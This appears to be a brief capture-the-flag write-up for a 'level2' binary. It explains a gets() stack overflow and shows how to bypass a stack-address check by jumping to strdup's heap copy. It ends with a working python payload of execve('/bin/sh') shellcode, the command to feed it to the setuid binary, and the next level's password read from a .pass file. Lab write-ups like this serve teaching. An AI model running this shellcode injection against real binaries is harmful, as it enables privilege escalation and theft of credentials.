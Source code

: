 Once again we have a binary that uses gets and is susceptible to buffer overflow exploits
After running it we can see that it takes an input from STDIN and can overflow. Time to dissassemble
main calls function p where we find the gets (buffer overflow vunlerable). But there is no function in the program that we can jump to that opens a shell prompt
We must find a way to induce our own using a shellcode injection
Injecting an address right after the gets buffer replaces the functions return address
By putting shell spawning code in the buffer, and replacing the return address of the function with the address for the buffer, thus running the shellcode we can abuse the binary elevated permissions
However the program checks for the injection of a stack addres 0xb. Fortunately, the strdup function makes a copy of the buffer on the heap so we must find that address using gdb and use it 
This exploit is possible because the NX protection (which makes codes in most memory regions Non eXecutable) is disabled
python -c "print '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80' + 55 * 'a' + '\x08\x04\xa0\x08'[::-1]" > /tmp/inj2
cat /tmp/inj2 - | ./level2
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
